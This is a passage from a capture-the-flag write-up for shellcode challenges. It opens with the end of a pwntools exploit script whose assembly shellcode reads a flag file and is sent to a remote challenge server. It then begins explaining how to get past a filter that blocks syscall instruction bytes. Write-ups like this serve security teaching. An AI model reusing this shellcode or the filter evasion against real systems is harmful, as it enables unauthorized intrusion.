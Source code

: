 ```python
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall

exit:
mov rax, 60
mov rsi, 42
syscall

flag:
  .string "flag"

""")

p = remote("0.cloud.chals.io", 0000)
print_clean(p.recvuntil(b"Reading 0x18 bytes from stdin.\n"))
p.sendline(setup)
pause(1)
p.send(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Solution: Shellcode Challenge 3 

Same procedure used with the first two challenges, we edit the port value in 'boilerplate.py' and navigate to the target webpage. This time we notice that the stdin bytes are back to 0x1000 but there is new text that states that now syscalls in all their forms are filtered out before, and only before, runtime. The filter only looks for the specific bytes of syscall (0x0f05), sysenter(0x0f34) and int (0x80).
There are also other lines which contiain helpful hints to solve this challenge.
The answer of this challenge lies in how syscalls are actually executed. I we look at the output of the previous challenge:
![Screenshot of the executed shellcode](images/stdout_of_exec_shellcode.png)
